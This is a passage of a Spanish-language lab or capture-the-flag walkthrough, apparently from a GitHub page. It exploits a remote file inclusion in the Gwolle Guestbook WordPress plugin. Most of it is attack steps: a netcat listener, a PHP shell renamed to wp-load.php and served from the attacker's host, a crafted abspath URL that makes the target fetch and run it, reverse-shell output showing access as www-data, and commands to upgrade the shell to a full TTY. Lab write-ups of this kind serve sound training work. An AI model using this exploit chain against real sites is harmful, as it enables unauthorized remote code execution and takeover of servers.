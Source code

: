 Ahora vamos a ponernos a la escucha con `nc`.

```shell
nc -lvnp <PORT>
```

Ahora desde la `URL` vamos a realizar lo siguiente teniendo el servidor de `python3` abierto donde esta dicho archivo.

```
URL = http://<IP>/wordpress/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://<IP_ATTACKER>/shell.php
```

Si vamos al servidor de `python3` vemos que tenemos un error, esta poniendo un nombre de archivo por defecto la pagina llamado `wp-load.php` por lo que vamos a renombrar el archivo con dicho nombre y no indicarle nada en la `URL`.

```shell
mv shell.php wp-load.php
```

Ahora la `URL` la dejaremos de esta forma:

```
URL = http://<IP>/wordpress/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://<IP_ATTACKER>/
```

Ahora si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.78] 44816
whoami
www-data
```

Vemos que esta funcionando, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

